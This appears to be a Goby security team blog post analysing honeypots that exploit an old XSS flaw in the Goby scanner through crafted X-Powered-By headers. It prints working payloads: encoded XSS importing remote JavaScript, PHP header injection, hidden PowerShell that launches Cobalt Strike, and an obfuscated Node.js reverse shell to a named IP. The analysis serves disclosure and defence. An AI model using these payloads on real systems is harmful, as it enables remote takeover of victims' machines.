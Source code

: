 # The story behind countering Goby against honeypots

Recently, we collaborated with FORadar to make a plug-in to implement a fully automatic detection process from company name -> enterprise vulnerability. During specific practice, we encountered two interesting honeypots. One of the honeypots has a built-in Weblogic vulnerability. At the same time, It is configured to counteract the payload specifically for the old version of Goby, and the other honeypot has strong concealment. If the team did not have people who specialize in honeypot research, we would almost fall into this honeypot. Of course, the main purpose of this article is to talk about Let’s talk about the first honeypot, and discuss the second one separately when we have the opportunity.

## Origin

![在这里插入图片描述](https://img-blog.csdnimg.cn/4097a5d01eb34a558af7adfc43fbfcd8.png#pic_center)


The beginning of the story is, of course, using Goby to detect a WebLogic remote code execution vulnerability. When preparing to exploit this vulnerability for follow-up actions, team members discovered that this goal was not simple:

![在这里插入图片描述](https://img-blog.csdnimg.cn/0220647644ee4df18e146a4fa42cdff7.jpeg#pic_center)

The header of the return packet carries the countermeasure Payload (the IP has been desensitized);

```html
X-Powered-By: PHP/7&#38;&#35;&#56;&#54;&#59;&#38;&#35;&#49;&#49;&#48;&# 59;&#38;&#35;&#55;&#55;&#59;&#38;&#35;&#54;&#54;&#59; &#55;&#49;&#59;&#38;&#35;&#55;&#52;&#59;&#38;&#35;&#56;&#55;&# 59;&#38;&#35;&#49;&#49;&#55;&#59;&#38;&#35;&#53;&#55;&#59; &#35;&#56;&#53;&#59;&#38;&#35;&#49;&#48;&#52;&#59;&#38;&#35;&# 49;&#49;&#48;&#59;<img src=1 onerror=&#x69;&#x6d;&#x70;&#x6f;&#x72;&#x74;&#x28;& #x75;&#x6e;&#x65;&#x73;&#x63;&#x61;&#x70;&#x65;&#x28;& #x27;&#x68;&#x74; ;&#x70;&#x3a;&#x2f;&#x2f;&#x31;&#x32;&#x37;&#x2e;&#x30;&#x2e;&#x30;&#x2e;& #x31;&#x3a;&#x38;&#x30;&#x38;&#x30;&#x2f;&#x56;&#x6e;&#x4d;&#x42;&#x47;&#x4a ;&#x57;&#x75;&#x39;&#x55;&#x68;&#x6e;&#x2f;&#x4e;&#x6f;&#x64;&#x65;&#x2e;& #x6a;&#x73;&#x27;&#x29;&#x29;>
```

Obviously this is a string of HTML entity-encoded code, let’s decode it and see;

```html
X-Powered-By: PHP/7&#86;&#110;&#77;&#66;&#71;&#74;&#87;&#117;&#57;&#85;&# 104;&#110;<img src=1 onerror=import(unescape('http://127.0.0.1:8080/VnMBGJWu9Uhn/Node.js'))>
```

It is obvious from this logic that this is a common XSS Payload, the purpose is to execute the `/VnMBGJWu9Uhn/Node.js` file, so let us take a look at this js file;


![在这里插入图片描述](https://img-blog.csdnimg.cn/d932de475a7c4bb9b8fcc338080c2e58.png#pic_center)

You can see that this is a string of nodejs exploit codes. The function is not complicated. First, define a download function to download files from the remote end, and then download different malicious files according to the operating system. If it is Windows, download the executable file directly. , if it is MAC, download the Python3 script file and execute the Python script;

So now the question is, why can this be used to counter Goby? This is actually a very long-standing historical vulnerability. The earliest time of the vulnerability was in October 2021. The vulnerability was fixed and a new version was released that month. As for why the vulnerability exists, it can be traced back to Goby’s component identification capabilities. Goby uses Electron Build client software. In Goby's asset interface, all component names that comply with fingerprint identification rules will be displayed, such as PHP, IIS, etc. For more accurate component identification, Goby will extract version information from the returned data packets. , and displayed in the interface rendering. In the old version of Goby, the version information was not treated harmlessly, resulting in the vulnerability.

## What happens if the Goby I use has this vulnerability?

After the conditions are met, the consequences of this vulnerability are very serious, and the countermeasures party can directly control the PC where Goby is located. But fortunately, this vulnerability is not a 0-click vulnerability, and requires the cooperation and interaction of Goby users to achieve the trigger. condition.

![在这里插入图片描述](https://img-blog.csdnimg.cn/6f5c7c20884c4f488411bda809ab93af.png#pic_center)

As you can see, this is the normal asset interface and version information extraction result, but the version information can be adjusted by constructing an HTTP header, such as this:

```php
#index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=\"alert(1);\">");
?>
```

At this time, the results the user sees on the Goby interface are as follows:

![在这里插入图片描述](https://img-blog.csdnimg.cn/d03b04b8a1a04672b616853c8bdd2d63.jpeg#pic_center)

You can clearly see the payload used by the countermeasures on the interface. The XSS code will not be triggered on this page, but if you just click to enter the IP details interface at this time, as shown in the figure below, the XSS code will be triggered.

![在这里插入图片描述](https://img-blog.csdnimg.cn/c44e2d1d4d2548fa9c140012adc9a0cf.jpeg#pic_center)

Of course, the countermeasures party can use this vulnerability to do more things. It can download malicious files from the remote end and trigger execution like the above honeypot device, or it can directly call Powershell to execute ShellCode and go online CS:

```php
#index.php
<?php
header("X-Powered-By: PHP/<img\tsrc=\"x\"\tonerror=import(unescape('http%3A//119.**.**.135%3A18899/js/1. js'))>");
?>
```

```js
// /js/1.js
(function(){require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANAB TAHQAc......(omitted)');})();

```

When the user clicks to enter the IP details page, he will not notice anything, but in fact the powershell code has been quietly executed.


![在这里插入图片描述](https://img-blog.csdnimg.cn/c763d5f1da7e4bcb9e90ddc208c4b06a.jpeg#pic_center)


Successfully launched CS

![在这里插入图片描述](https://img-blog.csdnimg.cn/df5b2c30d0b74ccaac1a1c1ac9a9fea7.jpeg#pic_center)

Therefore, upgrade Goby to the latest version as soon as possible~~ In addition to fixing its own bugs, we have also been launching more easy-to-use and practical new features and look forward to the experience and feedback of the masters.

## How many honeypots are there waiting to be discovered?

As we said before, this is a vulnerability that has been fixed nearly two years ago, but there are still a large number of honeypot devices around the world, waiting for some kind person who still uses the old version of Goby, we can These targets can be quickly found using a FOFA syntax:

```bash
header="img" && header="onerror"
```

It can be seen that there are nearly 1899 honeypot records worldwide, and their payloads are also similar, consistent with the honeypot equipment encountered earlier. What is interesting is that there are dozens of records overseas (~~Foreigners also want to counterattack Goby?~~).

From the perspective of product distribution, this type of honeypots widely covers: Sangfor VPN, Zhiyuan OA, RANZHIOA, Panwei OA, phpMyAdmin and other products and applications that are widely involved in offensive and defensive scenarios. It takes a lot for masters to encounter these assets. A careful mind.

![在这里插入图片描述](https://img-blog.csdnimg.cn/b3fe8dc14d6b4b36b7d4318797f5763a.png#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/6e52b8829226455c8101aaa2d2ca1b7f.png#pic_center)


We can also slightly adjust the Fofa grammar to see if there is anything new

```bash
header="img" && header="onerror" && header!="PHP"
```

After excluding similar honeypots, only 160 records are left, which obviously has a different use method from the previous honeypot equipment.

![在这里插入图片描述](https://img-blog.csdnimg.cn/df09f55ecdf445a9be0343c96fb13667.png#pic_center)

```bash
X-Powered-By: <img src=# onerror=window.open('https://202.**.***.12/help.html')>
```

After following up on help.html, we found that it was an obfuscated Payload.

```html
<!-- help.html !-->
<!DOCTYPE HTML>
<html>
<head>
     <meta charset="utf-8" />
     <script>
         var _0x1c94=['temp.js','utf8','writeFile','uuid','child_process','fork','/tmp/temp.js'];var _0x4cc5=function(_0x1c94c3,_0x4cc551){ _0x1c94c3=_0x1c94c3-0x0;var _0x3be382=_0x1c94[_0x1c94c3];return _0x3be382;};var _0x551876='';var _0x840f11='\x0avar\x20_0x411b=[\x27net\x2 7,\x27child_process\x27,\x27platform\x27, \x27spawn\x27,\x27/bin/bash\x27,\x27Socket\x27,\x27connect\x27,\x27stdout\x27,\x27pipe\x27];var\x20_0x4b64=function(_0x411be0,_0x4b6451){_0x411be0=_0x411be 0- 0x0;var\x20_0x278a8f=_0x411b[_0x411be0];return\x20_0x278a8f;};var\x20_0x1f656a=\x27106.75.15.34\x27;var\x20_0xb2ca98=\x2722220\x27;(function (){var\x20_0x58cd49=require( \x27os\x27);var\x20_0x20a0b2=require(\x27fs\x27);var\x20_0x2af086=require(_0x4b64(\x270x0\x27));var\x20_0x597913=require(_0x4b64(\x270x1\x27));var\x20_0x269932=_0 x58cd49[_0x4b64(\x270x2 \x27)]();if(_0x269932==\x27win32\x27){var\x20_0x16b7e1=_0x597913[\x27spawn\x27](\x27cmd\x27,[]);}else{var\x20_0x16b7e1=_0x597913[_0x4b64 ( \ x270x3 \ x27)] (_ 0x4b64 (\ x270x4 \ x27), [\ x27-i \ x27]);} Var \ x20_0x293F60 = New \ x20_0x2AF086 [(_ 0x4b64 (\ x270x5 \ \ \ \ \ \ x270x5 \ \ x27)] (); _ 0x293F60 [_0x4b64 (\x270x6\x27)](_0xb2ca98,_0x1f656a,function(){_0x293f60[\x27pipe\x27](_0x16b7e1[\x27stdin\x27]);_0x16b7e1[_0x4b64(\x270x7\x27)][_0x4b64 (\x270x8\x27 )](_0x293f60);_0x16b7e1[\x27stderr\x27][\x27pipe\x27](_0x293f60);});return/a/;}());\x0a';var _0x2b76a6=require('fs'); var _0x512c82=require('os')['platform']();if(_0x512c82=='win32'){_0x2b76a6['writeFile'](_0x4cc5('0x0'),_0x840f11,_0x4cc5('0x1'), function(_0x4af088){});_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x3'),_0x551876,_0x4cc5('0x1'),function(_0x3e2b1c){});require(_0x4cc5('0x4') )[_0x4cc5('0x5')](_0x4cc5('0x0'),{'detached':!![]});}else{_0x2b76a6[_0x4cc5('0x2')](_0x4cc5('0x6'),_0x840f11 ,_0x4cc5('0x1'),function(_0x261f0f){});_0x2b76a6['writeFile']('/tmp/uuid',_0x551876,'utf8',function(_0x474cc8){});require('child_process') ['fork'](_0x4cc5('0x6'),{'detached':!![]});}
     </script>
</head>

<body>
</body>
</html>
```

Although most of the code has been obfuscated, it is not difficult to see that the purpose of the payload is to write the malicious file to the disk and call it for execution. However, from the initial syntax, this should not only be targeted at Goby’s honeypot equipment. In Goby No, it is speculated that it may be a certain kind of scanner. This scanner uses a certain framework that not only integrates the browser's parsing environment, but also can directly call the node.js code in the browser's parsing environment, thereby triggering Counterattacker's Payload.

## Epilogue

This concludes the analysis of honeypots. I would also like to give you an advance notice that we have recently done a lot of testing on the best practices for Goby actual combat scenarios, and have achieved some results so far. Related versions and articles will be released in the near future. I hope that the masters will continue to do so. Follow and don’t miss it~

## refer to

- [Nothing to do, counterattack Goby](https://mp.weixin.qq.com/s/EPQZs5eQ4LL--tao93cUfQ)




Goby official website: https://gobysec.net/ If you have any feedback or suggestions, you can submit an issue or contact us in the following ways: GitHub issue: https://github.com/gobysec/Goby/issues WeChat group: Follow the public account "GobySec" and reply with the secret code "Join the group" (Community advantage: you can learn about Goby function releases, activities and other consultations at the first time) Telegram Group: http://t.me/gobies Twitter: https://twitter.com/GobySec
